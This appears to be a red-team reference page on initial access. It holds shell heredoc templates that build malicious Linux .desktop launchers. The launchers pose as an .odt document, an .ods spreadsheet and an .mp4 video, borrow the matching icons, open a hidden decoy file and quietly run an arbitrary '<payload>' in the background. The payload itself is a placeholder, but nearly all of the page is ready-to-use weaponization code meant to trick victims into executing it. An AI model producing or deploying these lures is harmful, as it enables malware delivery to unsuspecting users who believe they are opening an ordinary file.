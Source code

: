 ```yaml
---
author(s):
  - Userware
tags:
  - helpers
  - initial-access
  - weaponization
  - client-side-attacks
  - linux
---
```

# Desktop Files

## Libreoffice Files

```
/usr/share/applications/libreoffice-*.desktop
```

### Document Desktop File

```
$ cat > malicious_document.desktop << EOF
#!/usr/bin/env xdg-open

[Desktop Entry]
Encoding=UTF-8
Name=document.odt
Exec=libreoffice --writer $(pwd)/.real_document.odt; <payload> &
Terminal=false
Type=Application
Icon=libreoffice-writer
EOF
```

### Spreadsheet Desktop File

```
$ cat > malicious_document.desktop << EOF
#!/usr/bin/env xdg-open

[Desktop Entry]
Encoding=UTF-8
Name=document.ods
Exec=libreoffice --calc $(pwd)/.real_document.ods; <payload> &
Terminal=false
Type=Application
Icon=libreoffice-calc
EOF
```

## Video Desktop File

```
$ cat > malicious_video.desktop << EOF
#!/usr/bin/env xdg-open

[Desktop Entry]
Encoding=UTF-8
Name=video.mp4
Exec=/usr/bin/xdg-open $(pwd)/.real_video.mp4; <payload> &
Terminal=false
Type=Application
Icon=video-x-generic
EOF
```